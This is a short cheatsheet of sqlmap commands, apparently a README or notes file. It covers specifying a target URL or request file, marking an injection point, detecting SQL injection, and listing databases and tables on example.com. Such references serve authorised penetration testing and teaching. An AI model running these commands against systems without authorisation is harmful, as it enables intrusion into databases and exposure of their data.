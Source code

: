 # SQLMap Command Cheatsheet

## Basic Usage & Target Specification

### Target Options
```bash
# URL-based injection
sqlmap -u "http://example.com/page?id=1"

# Request file (recommended)
sqlmap -r request.txt

# Mark injection point with asterisk
In request.txt: GET /page?id=1* HTTP/1.1
```

### Basic Detection
```bash
# Basic injection detection
sqlmap -u "http://example.com/page?id=1"

# Using request file
sqlmap -r request.txt

# Flush session (start fresh)
sqlmap -r request.txt --flush-session
```

## Database Enumeration

### Database Discovery
```bash
# List all databases
sqlmap -r request.txt --dbs

# Get current database
sqlmap -r request.txt --current-db

# Specify database system (optimization)
sqlmap -r request.txt --dbms=mysql
sqlmap -r request.txt --dbms=postgresql
sqlmap -r request.txt --dbms=mssql
```

### Table Enumeration
```bash
# List tables in specific database
sqlmap -r request.txt -D database_name --tables

# List tables in current database
sqlmap -r request.txt --tables
```
